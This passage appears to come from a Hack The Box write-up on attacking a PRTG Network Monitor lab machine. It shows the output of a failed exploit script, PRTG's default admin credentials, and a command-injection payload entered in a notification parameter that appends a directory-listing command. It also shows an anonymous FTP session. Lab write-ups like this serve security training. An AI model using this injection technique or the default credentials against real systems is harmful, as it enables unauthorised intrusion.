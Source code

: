 ```console
# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
 ```

And nothing happened - I could not log in with user **pentest** password **P3nT3st!**. This was disappointing so I ran it again just to make sure I wasn't doing anything wrong but it still didn't work. 

I found a blog post explaining how this exploit really works on [codewatch](https://www.codewatch.org/blog/?p=453). So it looks like I can do an OS command injection by sending malformed parameters in sensor or notification management scenarios. Why don't we just try to do it manually?

So I am going to try to attach a notification with an EXE/script and add a small test script to it and see if it works:

![exe_script](./images/exe_script.PNG)  
**Figure 3:** exe_script  

```console
execute program, parameter: test.txt;tree /f c:\users\admin > c:\sdb_test.txt
```

```console
root@apollo:~/htb/netmon# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
```